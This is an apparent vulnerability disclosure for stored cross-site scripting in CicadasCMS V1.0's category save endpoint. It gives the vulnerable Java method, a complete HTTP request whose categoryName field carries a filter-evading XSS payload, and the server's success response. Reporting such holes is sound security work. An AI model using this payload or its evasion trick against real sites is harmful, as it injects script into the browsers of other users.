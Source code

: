 CicadasCMS - Cross Site Scripting on (cms/service/impl/CategoryServiceImpl.java categoryName parameter) 

Vendor Homepage:
```
https://gitee.com/westboy/CicadasCMS/branches
```

Version: 

```
V1.0
```

Tested on: 

```
JAVA, Apache, MySQL
```

Affected Page:

```
cms/service/impl/CategoryServiceImpl.java
```

On this page, categoryName parameter is vulnerable to Cross Site Scripting

```
public String save(TCmsCategory pojo) {
        ...
        if(categoryMapper.insert(pojo)>0){
            return JsonUtil.toSUCCESS("分类添加成功！","category-tab",true);
        }
        return JsonUtil.toERROR("分类添加失败！");
    }
```

Request:

```
POST /system/cms/category/save HTTP/1.1
Host: 172.16.78.31
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 276
Origin: http://172.16.78.31
Connection: keep-alive
Referer: http://172.16.78.31/system
Cookie: bjui_theme=blue; SESSION=15482c77-518b-4df6-a1d7-e7945a6d70ba
Priority: u=0

categoryId=&categoryName=%3Cdetails+open+ontoggle%3Dtop%5B'ale'%2B'rt'%5D(1)%3E&alias=ddd&parentId=0&translatedCategoryId=0&categoryIcon=&url=&permissionKey=&isNav=0&allowSearch=0&pageSize=3&modelId=79&alone=false&isCommon=false&content=&indexTpl=&listTpl=&contentTpl=&sortId=
```

Response:

```
HTTP/1.1 200 
Content-Type: application/json;charset=UTF-8
Content-Length: 130
Date: Thu, 18 Sep 2025 13:19:37 GMT

{"tabid":"category-tab","forward":"","message":"分类添加成功！","closeCurrent":true,"forwardConfirm":"","statusCode":"200"}
```
